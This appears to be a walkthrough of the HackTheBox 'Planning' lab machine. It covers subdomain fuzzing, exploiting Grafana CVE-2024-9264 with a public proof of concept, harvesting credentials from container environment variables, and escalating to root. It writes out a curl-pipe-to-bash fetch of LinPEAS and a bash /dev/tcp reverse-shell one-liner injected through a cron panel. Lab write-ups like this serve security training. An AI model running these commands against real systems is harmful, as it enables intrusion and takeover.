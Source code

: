 # HackTheBox — [Planning](https://app.hackthebox.com/machines/Planning)

## Task Description:
As is common in real-life pentests, you will start the Planning box with credentials for the following account:
```admin / 0D5oT70Fq13EvB5r```

## Scanning
We begin with a basic nmap scan:
```python
nmap -A 10.10.11.68
```
Open ports:

22 — SSH

80 — HTTP (web interface)

We add the domain to our ```/etc/hosts:```

```python
sudo nano /etc/hosts

10.10.11.68 planning.htb
```
## Exploring the Web Interface

Visiting ```http://planning.htb``` shows a standard landing page.

Directory brute-forcing (using ```dirb```, ```gobuster```, ```ffuf```) yields no useful results.

## Subdomain Enumeration
We move on to subdomain fuzzing:

```python
ffuf -u http://planning.htb -H "Host: FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -c -t 50 -fs 178
```
We discover an interesting subdomain:
```python
grafana [Status: 302]
```
Add it to ```/etc/hosts```:
```python
sudo nano /etc/hosts

10.10.11.68 planning.htb grafana.planning.htb
```
## Logging into Grafana

Visiting ```http://grafana.planning.htb``` leads us to a Grafana login form.

We use the credentials provided in the task description:

```python
admin / 0D5oT70Fq13EvB5r
```
Login is successful.

## Exploiting Grafana RCE CVE-2024-9264

We find a recent Grafana RCE vulnerability:

> https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

We set up a listener:
```python
nc -lvnp 5555
```
Run the exploit:
```python
python3 poc.py --url http://grafana.planning.htb:80 \
--username admin --password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.10.10 --reverse-port 5555
```
Reverse shell acquired!

## Inside a Docker Container

Running ```env```, we see interesting environment variables:

```python
GF_SECURITY_ADMIN_USER=enzo

GF_SECURITY_ADMIN_PASSWORD=RioTec*********
```
## SSH Access with Found Credentials
We try SSH access using the credentials:

```python
ssh enzo@10.10.11.68
```
Success! We retrieve user.txt.

## Privilege Escalation

We upload LinPEAS for enumeration:

```python
curl http://10.10.10.10/linpeas.sh | bash
```
We find a file:

```python
/opt/crontabs/crontab.db
```
Inside are credentials:

```python
root:P4ssw0rd***
```
However, these credentials do not work for root over SSH or ```su```.

## Exploring Local Services
LinPEAS also reveals a local service running on:

```python
127.0.0.1:8000
```
We forward the port via SSH:

```python
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```
Accessing ```http://localhost:8000``` reveals a CronJob Management Panel.

## Code Execution via CronJobs
We click "New", and in the Command field, we insert:

```python
bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/8888 <&1'
```
Set up a second listener:
```python
nc -lvnp 8888
```
Click "Run Now" in the panel.

We gain a reverse root shell and capture root.txt.

## Conclusion

The Planning machine simulates a real-world pentest scenario that begins with valid credentials. Successful exploitation required:

* Subdomain enumeration

* Remote Code Execution in Grafana (CVE-2024-9264)

* Discovering credentials inside a Docker container

* Privilege escalation via a hidden local web service


